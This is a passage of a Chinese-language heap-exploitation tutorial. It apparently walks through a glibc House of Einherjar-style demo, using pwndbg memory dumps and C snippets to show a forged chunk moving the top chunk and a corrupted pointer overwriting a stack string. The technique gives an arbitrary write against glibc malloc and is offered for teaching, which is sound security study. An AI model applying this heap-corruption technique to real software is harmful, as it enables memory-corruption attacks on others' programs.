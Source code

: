 ```c
pwndbg>  x/350gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000431 #chunk0
#p----------->:	0x0000000000000000	0x0000000000020da1 #top_chunk
									#set_head(p, size | PREV_INUSE)
0x555555757270:	0x0000555555756008	0x0000555555756010
    			#fake_chunk_fd		#fake_chunk_bk
......
//chunk1_hdr->:	0x0000000000000420	0x0000000000000430 #chunk1（free）
		  #chunk1_hdr[0] = malloc_size  #chunk1_hdr[1] &= ~1
......
0x555555757ab0:	0x0000000000000000	0x0000000000020551 
......
0x555555757ae0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

注意，现在top_chunk已经向前移动到我们伪造的p位置，但是chunk0仍然处于malloc状态，因此现在我们可以任意的修改top_chunk的值，在小于glibc 2.29的版本中可以使用上一小节的house of force。

既然chunk0_ptr已经被篡改，所指向的地方已经可控，我们来看一下最终的效果：

```c
	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string; #向chunk0_ptr[3]处写入"Hello!~"
```

```c
pwndbg> x/16gx 0x0000555555756010
0x555555756010 <stdout@@GLIBC_2.2.5>:	0x00007ffff7dce760	0x0000000000000000
0x555555756020 <chunk0_ptr>:	0x00007fffffffdda0	0x0000000000000000
    						   #0x0000555555756008
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

上述步骤修改了chunk0_ptr的指针为栈上的地址（这个地址是我们想要控制的地址）：0x00007fffffffdda0，然后向xchunk0_ptr中写入了"Hello!~"字符串：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620694437429-b6ab42db-33a9-4743-83a4-0ad83366fbfb.png)

```c
	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
```
